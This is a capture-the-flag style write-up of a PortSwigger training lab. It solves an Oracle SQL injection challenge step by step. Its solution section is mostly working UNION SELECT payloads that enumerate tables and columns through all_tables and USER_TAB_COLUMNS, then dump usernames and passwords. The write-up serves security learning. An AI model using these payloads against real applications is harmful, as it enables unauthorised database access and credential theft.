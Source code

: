 ```yaml
---
title: PortSwigger - SQLi 10 - Listing contents on Oracle DB
date: 2023-05-17
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL FROM DUAL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL FROM DUAL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL FROM DUAL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL FROM DUAL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc' FROM DUAL--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM all_tables--
````

75 table names are displayed. A quick sort make `USERS_OPLMGY` stands out. Time to find the column names inside.

> I didn't find it first try! I had to look on internet and I found that I have to query the table `USER_TAB_COLUMNS`.

````text
<website>/filter?category=Gifts'UNION SELECT column_name,NULL FROM USER_TAB_COLUMNS WHERE table_name='USERS_OPLMGY'--
````

We obtain `USERNAME_JIHLXR` and `PASSWORD_DNJXFC`.

````text
<website>/filter?category=Gifts'UNION SELECT USERNAME_JIHLXR,PASSWORD_DNJXFC FROM USERS_OPLMGY--
````

That's how I solved this challenge!

